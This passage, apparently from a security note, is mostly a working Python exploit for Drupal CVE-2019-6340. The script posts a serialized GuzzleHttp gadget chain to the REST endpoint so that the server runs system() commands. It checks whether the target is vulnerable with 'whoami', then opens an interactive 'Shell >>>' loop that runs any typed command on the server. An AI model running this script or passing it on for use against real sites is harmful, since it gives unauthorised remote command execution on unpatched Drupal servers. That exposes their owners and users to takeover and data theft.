    print("+ EXP: python3 cve-2019-6340_cmd.py http://freeerror.org:8080   +")
    print("+ VER: Drupal < 8.6.10                                          +")
    print("+      Drupal < 8.5.12                                          +")
    print("+---------------------------------------------------------------+")
    sys.exit()

url = sys.argv[1]
cmd = "whoami"
dir = "/node/?_format=hal_json"
url_dir = url + dir
cmd_len = len(cmd)

payload = (
    '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
    % (cmd_len, cmd, url)
)
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
    "Connection": "close",
    "Content-Type": "application/hal+json",
    "Accept": "*/*",
    "Cache-Control": "no-cache",
}
response = requests.request("POST", url_dir, data=payload, headers=headers)
if response.status_code == 403 and "u0027access" in response.text:
    print("[+] Find Drupal CVE-2019-6340 Vuln!\n")
else:
    print("[-] Not Drupal CVE-2019-6340 Vuln! Good Luck~\n")
    sys.exit()


def do_post(cmd):
    payload = (
        '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
        % (cmd_len, cmd, url)
    )

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
        "Connection": "close",
        "Content-Type": "application/hal+json",
        "Accept": "*/*",
        "Cache-Control": "no-cache",
    }
    global response
    response = requests.request("POST", url_dir, data=payload, headers=headers)
    r = response.text
    s = r.split("}")[1]
    print(s)


while 1:
    cmd = input("Shell >>> ")
    cmd_len = len(cmd)
    if cmd == "exit":
        exit(0)
    do_post(cmd)
```

[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707292521303-288c0212-12bb-43de-b788-30a3007dac2a.png#averageHue=%23435b5b&clientId=u968b053f-1c23-4&from=paste&height=157&id=u8a755b68&originHeight=314&originWidth=1138&originalType=binary&ratio=2&rotation=0&showTitle=false&size=58618&status=done&style=none&taskId=u2e569569-8133-4ab6-a18f-1df37076869&title=&width=569)
